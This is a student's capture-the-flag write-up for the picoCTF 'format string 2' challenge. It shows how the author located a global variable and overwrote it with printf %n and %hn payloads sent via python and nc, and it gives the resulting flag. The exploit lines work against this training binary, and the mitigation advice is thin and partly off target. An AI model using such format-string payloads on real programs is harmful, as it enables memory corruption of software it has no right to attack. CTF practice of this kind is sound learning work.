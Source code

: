 ## CTF: Binary Explotation AY25
Challenge: format string 2 

Category:   pwn 

Points:

Difficulty:    Intermediate

## Instructions
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

Hints: 
1. cjagbbyf ner irel hfrshy sbe guvf ceboyrz!

## Solution
File type 64-bit 

When looking at teh code figured out I need to write over the sus value
![image](images/2.jpg)

The ascii version of the hex 0x67616c66 = galf 
So i need to overwite itusing %n

When looking at the binary the buf variable is 0x40 from sus

![image](images/3.jpg)

Using some trial and error found out buf is on variable 14 of the printf statment

![image](images/4.jpg)

Going to try to just add enough reach sus to see if it is possible to over flow and overwrite it that way 

0x40 = 64 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa

It did not work 

![image](images/5.jpg)
 
Using nm to get the address of the global variables

![image](images/6.jpg)

0000000000404060 D sus

nc rhea.picoctf.net 58136 < <(python -c 'print("%14$p`@@\x00\x00\x00\x00\x00\x00\x00\x00\x00")')  
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?  
Here's your input: 0x4040607024343125`@@
sus = 0x21737573
You can do better!


Solved it off line 
![image](images/7.jpg)

< <(python -c 'print("%1734437990x%17$nAAAAaaa`@@\x00\x00\x00\x00\x00\x00\x00\x00\x00")')

used to send in the data to the variable
The python makes it so the \x are read as bytes directly 

%1734437990x prints out that number of charcters

%17$n puts the value of the number of printed chacters in the vlaue of the varible at %17 = sus

AAAAaaa moving the value over a few spaces

`@@\x00\x00\x00\x00\x00\x00\x00\x00\x00")') writing a adderss of the variable into the pointer

when doing the actual one on the intance it took to long

./vuln < <(python -c 'print("%26465x%20$n%1285x%18$hn.Aaaaaaa`@@\x00\x00\x00\x00\x00\x00aaaaaaa\x62\x40\x40\x00\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00")')

got to work faster

![image](images/8.jpg)


## Flag

picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}
## Mitigation

You could limit the buf size of the scanf that way you couldn't write a crazy long input needed to add the right hex value to the addresses. Could also limit the number of global variables so that you can't find them by default to change them.
